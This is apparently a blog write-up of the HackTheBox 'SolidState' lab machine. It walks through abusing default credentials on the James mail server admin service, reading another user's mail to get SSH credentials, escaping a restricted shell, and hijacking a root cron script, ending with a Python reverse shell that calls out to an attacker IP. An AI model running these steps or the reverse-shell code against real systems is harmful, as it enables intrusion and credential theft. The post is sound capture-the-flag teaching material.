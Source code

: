 ```yaml
---
layout: post
title: HackTheBox | SolidState
date: 2018-07-02 19:00:00 -0400
categories:
- hackthebox
description: ''
image:
  feature: https://officialhocc.github.io/assets/img/assets/img/solid_by_matt023-d79n43r.png
  credit: 
  creditlink: 
---
```

This post will describe exploitation of the SolidState device on [HackTheBox](https://www.hackthebox.eu).

![](https://image.ibb.co/nHoHJb/1.png)

## Enumeration

As is tradition, we run a full nmap scan:

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|_  256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.232 [10.10.14.232]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

So one service definitely looks interesting, James 2.3.2. Typically, I would start my investigation on port 80 but based on my knowledge of the James Remote Admin tool. This service is typically left with default credentials which then can be used to change the passwords of the mail server users. From there we can access POP3 and snoop around the emails for the users.  

Logging in with Default Credentials: 

![](https://image.ibb.co/h9w4yb/2.png)

From this admin panel, we can change any user's password:

![](https://image.ibb.co/bu1hjG/3.png)

This makes it easy to enumerate each user's emails in turn.  For this we simply change each password to the user's username and then we can login to each one via POP3.  On Mindy's account we find some interesting emails.

```bash
root@kali:~/htb/SolidState# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS mindy
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We have recovered a username and password for Mindy, so let's SSH to the machine. Sounds easy enough. 

## Privilege Escalation

### Rbash escape

When we SSH to the device, we're greeted by a restricted shell.

![](https://image.ibb.co/cpZ2jG/4.png)

Escaping restricted shells could be a post in its own right so I'd recommend reading [Escape from SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells), if you're interested in the topic.

To break out of this rbash shell we will need to use the `--noprofile` flag to bash on login as below, so rbash isn't loaded.

![](https://image.ibb.co/e1WhjG/5.png)

Upon our enumeration, we come across an interesting world-writeable file in /opt.  This might seem quite esoteric, but just remember to always check the `/opt` and `/usr/local` directories for any interesting custom packages or scripts.  Running [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) on every box you enumerate, and learning to pick out useful information is also an invaluable skill.  I recommend doing that here and finding where this file is referenced.

![](https://image.ibb.co/dk7NjG/6.png)

```python
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python

import os
import sys
if not os.geteuid() == 0:
    sys.exit("\nOnly root can run this script\n")
```

There's nothing in crontab, but considering it's been written as if only root can run it, and is owned by root, this suggests the root user may have a cron job set up for this script.  I had an inkling that this would be the case, so I wrote a script to fetch the root flag and output it to a temporary folder.  This one was definitely more down to CTF intuition than anything else.

We place the following code in tmp.py:

```python
#!/usr/bin/env python

import os

with open('/root/root.txt', 'rb') as rootfile:
    with open('/var/tmp/.crash', 'wb') as openthis:
        openthis.write(rootfile.read())
```

After a short amount of time, the flag is indeed written to the /var/tmp directory.

Getting a shell from this is then as simple as setting the python file to run any number of [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

We'll place the following in tmp.py:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Wait a few minutes and:

![](https://image.ibb.co/iBjPyb/7.png)